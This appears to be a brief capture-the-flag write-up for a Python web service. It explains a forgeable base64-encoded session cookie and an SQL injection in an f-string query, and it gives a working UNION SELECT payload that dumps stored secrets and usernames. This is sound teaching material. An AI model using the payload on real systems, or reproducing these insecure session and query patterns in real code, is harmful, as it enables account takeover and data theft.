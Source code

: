 # shizika sploits

This service contains two vulns

## Insecure session

Session is handled by `auth.py` script, which builds it from username like this:

```py
def encode_session(username: str) -> str:
    return base64.b64encode(json.dumps({'user': username}).encode()).decode()
```

There's nothing that stops users from changing username in session cookie to another
one and receiving access to another user's account

## SQL injection in username on /my-shporas

This piece of code is vulnerable:

```py
cur = get_db().cursor()
cur.execute(f'SELECT * FROM shporas WHERE owner = "{g.username}"')
shporas = cur.fetchall()
```

Username just gets inserted into SQL query, which means that we can use following
username to dump all secrets and usernames from database:

```
" UNION SELECT 1, 1, content, 1, 1, 1, 1 FROM shporas UNION SELECT 1, 1, username, 1, 1, 1, 1 FROM users; --
```
